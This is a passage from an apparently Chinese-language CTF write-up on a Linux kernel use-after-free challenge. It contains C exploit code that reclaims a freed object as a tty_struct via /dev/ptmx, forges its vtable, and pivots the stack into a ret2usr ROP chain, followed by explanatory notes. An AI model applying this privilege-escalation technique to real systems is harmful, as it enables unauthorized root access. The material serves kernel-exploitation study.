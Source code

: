 ```c
	if(fd1<0||fd2<0)
	{
		printf("[*] open failure !");
		exit(-1);
	}
	ioctl(fd1,0x10001,0x2e0);
	close(fd1);

	read(fd2,&before,8);
	fd = open("/dev/ptmx",2);
	read(fd2,&after,8);
	if(after==before)
	{
		printf("[!] not work");
		exit(-1);
	}

	buf = malloc(0x2e8);
	vft = malloc(0X20*0X1000);

	read(fd2,buf,0x8*4);
	buf[3] = (void*)vft;
	write(fd2,buf,0x8*4);
	vft[0] = 0xffffffff81009ad3;  // add rsp,0x40;pop 6reg;ret
	vft[7] = 0xffffffff8100008a;  //xchg esp,eax;ret
	
	int i=0xf;
	vft[i++] = 0xffffffff810d238d;
	vft[i++] = 0x6f0;
	vft[i++] = 0xffffffff81004d80;
	vft[i++] = 0;
	vft[i++] = usergadget;

	write(fd,&vft,1);
	return 0;
}
```

* 说明

1. 在调用虚表中的函数时 `write(fd,&vft,1)`,在汇编层面是，`0xffffffff814dc0c3:	call   QWORD PTR [rax+0x38]`，（怎麽测试出来的？填入一个非法地址，之后backtrace） 其中rax就是我们伪造虚表结构体的地址，而在`rax+0x38`处放置`xchg esp,eax;ret`，此时rsp的高位会置零，低位变成rax的低位。所以若rax本来高位就是零，那么rsp就会变成`rax+0`的值,栈迁移之后便可rop。如何申请到只有低32位的地址，用mmap肯定是可以的，但是我没测试成功，反而用malloc也申请到的只有低32位的地址，便用malloc来代替。

2. 关于ret2usr的思想，把全部需要的gadget都放在用户空间，简化了构造rop的难度。

3. 如何获取某个结构体大小，当然要用有符号的vmlinux，也可以从源码中摘出来手动编译，但可能有些类型无法识别。

```Powershell
gef➤  p sizeof(struct tty_operations)
$1 = 0x110
gef➤  p sizeof(struct tty_struct)
$2 = 0x2e0
```
4. 在我编译的bzImage中我并没有测试通过uaf劫持虚表结构体那个方法，可能这道题是特意构造的。
